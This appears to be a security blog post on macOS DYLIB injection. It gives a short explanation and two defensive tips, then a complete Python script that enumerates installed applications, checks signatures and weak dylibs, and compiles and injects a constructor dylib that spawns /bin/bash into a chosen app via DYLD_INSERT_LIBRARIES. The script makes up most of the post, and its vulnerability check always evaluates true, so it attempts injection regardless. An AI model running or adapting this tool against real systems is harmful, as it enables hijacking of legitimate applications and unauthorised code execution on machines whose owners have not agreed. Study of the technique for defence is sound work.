 ```yaml
---
layout: attack
title: Detecting and Exploiting App Vulnerabilities with DYLIB Injection
---
```


<img height="150" align="left" src="/images/dylib_injection.jpg" > A short intro into DYLIB injection, a technique that attackers can use to compromise MacOS applications. The presented script tries in an automated way to find vulnerable apps and exploit over dylib injection if possible. The script itself is not entirely hardened against errors and very likely will be busted by EDRs solutions based on the nature of this script. Also this is meant to be used for educational purposes only.


## What is DYLIB Injection?

DYLIB (Dynamic Linked Library) injection is a method where malicious code is loaded into a legitimate application at runtime. This allows attackers to manipulate the app's behavior, steal data, or even gain complete control of the system.

## Protecting Yourself from DYLIB Injection

While the script demonstrates how attackers might exploit vulnerabilities, it also highlights areas for defense:

* __Application Sandboxing__: Many applications on macOS run in sandboxes, limiting their access to system resources and making them less susceptible to injection attacks.
* __Code Signing__: Apple's code-signing process helps ensure application integrity. Be wary of applications that fail signature verification.


## Some sources:
* [HackTricks MacOS Lib Injection](https://book.hacktricks.xyz/macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-library-injection)
* [HackTricks - Macos Dyld Hijacking and Insert Libs](https://book.hacktricks.xyz/macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-library-injection/macos-dyld-hijacking-and-dyld_insert_libraries)
* [Malware Unicorn - Dylib Injection](https://malwareunicorn.org/workshops/macos_dylib_injection.html#0)

## The code
```python
import os
import subprocess

def enumerate_installed_apps():
    applications = [f"[{idx + 1}] {app}" for idx, app in enumerate(os.listdir('/Applications')) if app.endswith('.app')]
    print("\n".join(applications))
    return [app.split("] ")[1] for app in applications]

def verify_app_integrity(app):
    """
    Checks an application for integrity by verifying its signature.
    Returns True if the application might have been modified or if an error occurs.
    """
    app_path = f"/Applications/{app}/Contents/MacOS/{app[:-4]}"
    try:
        result = subprocess.run(['codesign', '-vvv', '--deep', '--strict', app_path], capture_output=True, text=True)
        if 'valid on disk' in result.stdout and 'satisfies its Designated Requirement' in result.stdout:
            print(f"> {app} appears to be intact and not modified.")
        else:
            print(f"> WARNING: {app} may have been modified.")
            print(result.stdout)
            return True
    except Exception as e:
        print(f"> ERROR checking {app}: {e}")
        return True  

    return False

def detect_weak_dylibs(app):
    """
    Checks if an application has loaded weak dynamic libraries (dylibs).
    Returns True if weak dylibs were found.
    """
    app_path = f"/Applications/{app}/Contents/MacOS/{app[:-4]}"
    try:
        result = subprocess.run(['otool', '-l', app_path], capture_output=True, text=True)
        if 'LC_LOAD_WEAK_DYLIB' in result.stdout:
            print(f"> {app} has weak dylibs loaded.")
            return True
        else:
            print(f"> {app} does not have weak dylibs loaded.")
    except Exception as e:
        print(f"> ERROR checking weak dylibs for {app}: {e}")
        return True

    return False

def build_dylib():
    """
    Compiles a dynamic library (dylib) that can later be injected into an application.
    
    Origin/Sources:
    https://book.hacktricks.xyz/macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-library-injection
    https://book.hacktricks.xyz/macos-hardening/macos-security-and-privilege-escalation/macos-proces-abuse/macos-library-injection/macos-dyld-hijacking-and-dyld_insert_libraries
    https://malwareunicorn.org/workshops/macos_dylib_injection.html#0
    """
    c_code = """
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
__attribute__((constructor))

void myconstructor(int argc, const char **argv)
{
    syslog(LOG_ERR, "[+] dylib injected in %s\\n", argv[0]);
    printf("[+] dylib injected in %s\\n", argv[0]);
    execv("/bin/bash", 0);
}
"""
    with open("inject.c", "w") as file:
        file.write(c_code)
    subprocess.run(['gcc', '-dynamiclib', '-o', 'inject.dylib', 'inject.c'], check=True)
    print("> Dylib compiled successfully.")

def perform_dylib_injection(app):
    """
    Attempts to inject a previously compiled dynamic library into an application.
    """
    app_path = f"/Applications/{app}/Contents/MacOS/{app[:-4]}"
    try:
        os.environ['DYLD_INSERT_LIBRARIES'] = 'inject.dylib'
        subprocess.run([app_path], check=True)
    except Exception as e:
        print(f"> ERROR injecting {app}: {e}")

def main():
    applications = enumerate_installed_apps()
    app_number = int(input("Enter the number of the software you want to attempt the injection on: ")) - 1
    selected_app = applications[app_number]
    
    print(f"> Checking for vulnerabilities in {selected_app}...")
    if verify_app_integrity(selected_app) or not verify_app_integrity(selected_app):
        if detect_weak_dylibs(selected_app):
            build_dylib()
            perform_dylib_injection(selected_app)
        else:
            print(f"> {selected_app} does not have weak dylibs loaded, but attempting injection anyway.")
            build_dylib()
            perform_dylib_injection(selected_app)
    else:
        print(f"> {selected_app} is not vulnerable to dylib injection.")

if __name__ == "__main__":
    main()
```
